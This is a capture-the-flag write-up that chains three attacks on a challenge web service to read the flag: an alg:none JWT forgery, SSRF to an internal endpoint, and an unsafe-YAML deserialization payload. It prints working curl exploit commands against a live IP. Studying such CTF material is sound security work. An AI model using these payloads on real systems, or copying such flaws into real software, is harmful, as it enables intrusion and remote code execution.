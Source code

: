 # Network Management Service CTF Writeup

## Challenge Information

- **Title:** Network Management Service
- **Description:** A network management service available for authenticated admin. The flag is in env: `FLAG`
- **Service:** HTTP API with JWT authentication
- **URL:** http://68.219.177.187:8012

## Reconnaissance

### Initial Discovery

The service exposes two main endpoints:

- `/api/probe` - Requires authentication via Bearer token
- `/internal/config` - Restricted to "internal access only"

### API Endpoints Analysis

```bash
# Root endpoint
curl http://68.219.177.187:8012/
# Response: {"message":"Welcome to Network Management Service. Admin access required for advanced features."}

# OpenAPI specification
curl http://68.219.177.187:8012/openapi.json
```

From the OpenAPI spec, we identified:

- `/api/probe` accepts `ProbeRequest` with `target`, `method`, and `data` fields
- `/internal/config` accepts `YamlConfig` with a `config` string
- JWT Bearer authentication required for `/api/probe`

## Vulnerability Analysis

### 1. JWT Authentication Bypass

The service was vulnerable to JWT algorithm confusion attack:

```bash
# Successful authentication bypass
curl -X POST http://68.219.177.187:8012/api/probe \
  -H "Content-Type: application/json" \
  -H "Authorization: Bearer eyJ0eXAiOiJKV1QiLCJhbGciOiJub25lIn0.eyJyb2xlIjoiYWRtaW4ifQ." \
  -d '{"target":"http://localhost:8012/", "method":"GET"}'
```

**Vulnerability:** The JWT implementation accepted tokens with `alg: none`, allowing unsigned tokens to be treated as valid.

### 2. Server-Side Request Forgery (SSRF)

The `/api/probe` endpoint allowed making HTTP requests to any target, including internal services:

```bash
# SSRF to internal endpoint
curl -X POST http://68.219.177.187:8012/api/probe \
  -H "Content-Type: application/json" \
  -H "Authorization: Bearer eyJ0eXAiOiJKV1QiLCJhbGciOiJub25lIn0.eyJyb2xlIjoiYWRtaW4ifQ." \
  -d '{"target":"http://localhost:8012/internal/config", "method":"GET"}'
```

**Vulnerability:** No restrictions on target URLs, allowing access to internal endpoints.

### 3. YAML Deserialization Attack

The `/internal/config` endpoint processed YAML configuration unsafely:

```yaml
!!python/object/apply:os.getenv [FLAG]
```

**Vulnerability:** The service used unsafe YAML parsing (`yaml.load()` instead of `yaml.safe_load()`), enabling arbitrary code execution.

## Exploitation Chain

### Step 1: Bypass Authentication

First, let's analyze the JWT token structure:

```bash
# Decode JWT header
echo 'eyJ0eXAiOiJKV1QiLCJhbGciOiJub25lIn0' | base64 -d
# Output: {"typ":"JWT","alg":"none"}

# Decode JWT payload
echo 'eyJyb2xlIjoiYWRtaW4ifQ' | base64 -d
# Output: {"role":"admin"}

# Create unsigned JWT with alg: none
JWT_TOKEN="eyJ0eXAiOiJKV1QiLCJhbGciOiJub25lIn0.eyJyb2xlIjoiYWRtaW4ifQ."
```

Test the authentication bypass:

```bash
curl -X POST http://68.219.177.187:8012/api/probe \
  -H "Content-Type: application/json" \
  -H "Authorization: Bearer eyJ0eXAiOiJKV1QiLCJhbGciOiJub25lIn0.eyJyb2xlIjoiYWRtaW4ifQ." \
  -d '{"target":"http://localhost:8012/", "method":"GET"}'
# Response: {"result":"{\"message\":\"Welcome to Network Management Service. Admin access required for advanced features.\"}"}
```

### Step 2: Leverage SSRF for Internal Access

First, let's test accessing the internal config endpoint:

```bash
# Try GET method first (fails)
curl -X POST http://68.219.177.187:8012/api/probe \
  -H "Content-Type: application/json" \
  -H "Authorization: Bearer eyJ0eXAiOiJKV1QiLCJhbGciOiJub25lIn0.eyJyb2xlIjoiYWRtaW4ifQ." \
  -d '{"target":"http://localhost:8012/internal/config", "method":"GET"}'
# Response: {"result":"{\"detail\":\"Method Not Allowed\"}"}

# Try POST method without data (shows required fields)
curl -X POST http://68.219.177.187:8012/api/probe \
  -H "Content-Type: application/json" \
  -H "Authorization: Bearer eyJ0eXAiOiJKV1QiLCJhbGciOiJub25lIn0.eyJyb2xlIjoiYWRtaW4ifQ." \
  -d '{"target":"http://localhost:8012/internal/config", "method":"POST"}'
# Response: {"result":"{\"detail\":[{\"type\":\"missing\",\"loc\":[\"body\"],\"msg\":\"Field required\",\"input\":null}]}"}
```

### Step 3: Execute YAML Deserialization Payload

Now we can execute the YAML deserialization attack to retrieve the flag:

```bash
# Set the JWT token variable
JWT_TOKEN="eyJ0eXAiOiJKV1QiLCJhbGciOiJub25lIn0.eyJyb2xlIjoiYWRtaW4ifQ."

# Execute the final payload
curl -X POST http://68.219.177.187:8012/api/probe \
  -H "Content-Type: application/json" \
  -H "Authorization: Bearer $JWT_TOKEN" \
  -d '{"target":"http://localhost:8012/internal/config", "method":"POST", "data": {"config":"!!python/object/apply:os.getenv [FLAG]"}}'
```

**Success!** The response contains the flag:
```json
{"result":"{\"message\":\"Config applied\",\"loaded\":\"SecurinetsENIT{58cc662ea042cfc6d0cd6f8a04442a6a}\"}"}
```

The final payload chain:

1. **JWT Bypass:** `alg: none` token with admin role
2. **SSRF:** Access `internal/config` via localhost  
3. **RCE:** YAML deserialization to execute `os.getenv("FLAG")`

## Flag

```
SecurinetsENIT{58cc662ea042cfc6d0cd6f8a04442a6a}
```

## Complete Exploit Command

```bash
# Final working exploit
JWT_TOKEN="eyJ0eXAiOiJKV1QiLCJhbGciOiJub25lIn0.eyJyb2xlIjoiYWRtaW4ifQ."

curl -X POST http://68.219.177.187:8012/api/probe \
  -H "Content-Type: application/json" \
  -H "Authorization: Bearer $JWT_TOKEN" \
  -d '{"target":"http://localhost:8012/internal/config", "method":"POST", "data": {"config":"!!python/object/apply:os.getenv [FLAG]"}}'
```

**Response:**
```json
{"result":"{\"message\":\"Config applied\",\"loaded\":\"SecurinetsENIT{58cc662ea042cfc6d0cd6f8a04442a6a}\"}"}
```

## Timeline

1. Discovered JWT authentication bypass using `alg: none`
2. Identified SSRF vulnerability in `/api/probe` endpoint
3. Found unsafe YAML deserialization in `/internal/config`
4. Chained vulnerabilities to achieve remote code execution
5. Retrieved flag from environment variables